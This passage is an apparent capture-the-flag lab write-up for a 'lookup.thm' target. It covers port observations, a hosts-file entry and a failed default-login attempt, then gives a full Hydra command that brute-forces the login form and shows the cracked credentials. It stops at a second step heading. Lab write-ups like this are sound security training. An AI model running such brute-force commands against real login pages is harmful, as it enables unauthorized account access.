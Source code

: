 #### Observations:
- Open ports:
  - SSH on port 22
  - HTTP on port 80

### Adding Target to Hosts File

For easier navigation, we add the target's IP to the `/etc/hosts` file.

```bash
echo "10.10.80.211 lookup.thm" | sudo tee -a /etc/hosts
```

### Navigating to the Web Application

After adding the IP to the hosts file, we open the web application in a browser. The login page appears:

<div align="center">
<img src="https://github.com/user-attachments/assets/e3dda654-cb00-4625-ad95-842636be7b6b" height="300"></img>
</div>

#### Attempting Default Login Credentials

We attempt to log in with common default credentials but are met with a "wrong password" message and a 3-second delay before redirection:

```bash
Wrong password. Please try again.
Redirecting in 3 seconds.
```

<div align="center">
<img src="https://github.com/user-attachments/assets/a67607f7-9110-4af0-8df1-c3a934b196af" height="250"></img>
</div>

### Brute Forcing Login Using Hydra

Since the default credentials didn’t work, we proceed with brute-forcing the login page using Hydra.

#### Step 1: Finding the Password

```bash
hydra -L /snap/seclists/current/Usernames/Names/names.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=try again"
```

Output:
```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

We successfully find the username `jose` with password `password123`.

#### Step 2: Finding the Username&Password 
